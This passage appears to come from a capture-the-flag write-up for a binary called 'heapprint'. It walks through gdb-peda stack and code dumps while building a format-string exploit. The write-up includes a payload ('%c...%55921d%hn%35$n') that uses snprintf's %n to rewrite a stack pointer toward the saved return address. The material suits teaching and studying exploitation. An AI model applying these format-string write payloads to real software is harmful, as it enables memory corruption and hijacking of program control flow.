 ```bash
0032| 0x7fffffffda80 --> 0x1 
0040| 0x7fffffffda88 --> 0x7fffffffdb58 --> 0x7fffffffdf44 ("./heapprint")
......
0240| 0x7fffffffdb50 --> 0x1 
0248| 0x7fffffffdb58 --> 0x7fffffffdf44 ("./heapprint")

[-------------------------------------code-------------------------------------]
   0x555555554a8a:	lea    rdi,[rip+0x2005cf]        # 0x555555755060
   0x555555554a91:	mov    eax,0x0
   0x555555554a96:	call   0x555555554838
=> 0x555555554a9b:	lea    rdi,[rip+0xb6]        # 0x555555554b58
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffda60 --> 0x0 
0008| 0x7fffffffda68 --> 0x8879fe5d03add800 
0016| 0x7fffffffda70 --> 0x555555554ad0 (push   r15)
0024| 0x7fffffffda78 --> 0x2aaaaacf3830 (<__libc_start_main+240>:	mov    edi,eax)
0032| 0x7fffffffda80 --> 0x1 
0040| 0x7fffffffda88 --> 0x7fffffffdb58 --> 0x7fffffffda78 --> 0x2aaaaacf3830 (<__libc_start_main+240>:	mov    edi,eax)
......
0240| 0x7fffffffdb50 --> 0x1 
0248| 0x7fffffffdb58 --> 0x7fffffffda78 --> 0x2aaaaacf3830 (<__libc_start_main+240>:	mov    edi,eax)

gdb-peda$ telescope 0x7fffffffdf44
0000| 0x7fffffffdf44 --> 0x727070610000da78 
0008| 0x7fffffffdf4c --> 0x4956594d00746e69 ('int')


```
?? The return address is still the same,but content at `0x7fffffffdf44` has been changed! It seems that when the snprintf process `%35$n`, it still uses the old value `0x7fffffffdf44` but not the new value `0x7fffffffda78`.

So what do we do now? Well, you can read the source of glibc, or you can try the following payload.

```bash
#payload="%c%c%c%c%c%c%c%55921d%hn%35$n", 55928=0xda78
[-------------------------------------code-------------------------------------]
=> 0x555555554a96:	call   0x555555554838
   0x555555554a9b:	lea    rdi,[rip+0xb6]        # 0x555555554b58
   0x555555554aa2:	call   0x555555554820
Guessed arguments:
arg[0]: 0x555555755060 --> 0x0 
arg[1]: 0x100 
arg[2]: 0x555555756010 ("%c%c%c%c%c%c%c%55921d%hn%35$n\n")
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffda60 --> 0x0 
0008| 0x7fffffffda68 --> 0x8879fe5d03add800 
0016| 0x7fffffffda70 --> 0x555555554ad0 (push   r15)
0024| 0x7fffffffda78 --> 0x2aaaaacf3830 (<__libc_start_main+240>:	mov    edi,eax)
0032| 0x7fffffffda80 --> 0x1 
0040| 0x7fffffffda88 --> 0x7fffffffdb58 --> 0x7fffffffdf44 ("./heapprint")
......
0240| 0x7fffffffdb50 --> 0x1 
0248| 0x7fffffffdb58 --> 0x7fffffffdf44 ("./heapprint")

[-------------------------------------code-------------------------------------]
   0x555555554a8a:	lea    rdi,[rip+0x2005cf]        # 0x555555755060
   0x555555554a91:	mov    eax,0x0
   0x555555554a96:	call   0x555555554838
=> 0x555555554a9b:	lea    rdi,[rip+0xb6]        # 0x555555554b58
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffda60 --> 0x0 
```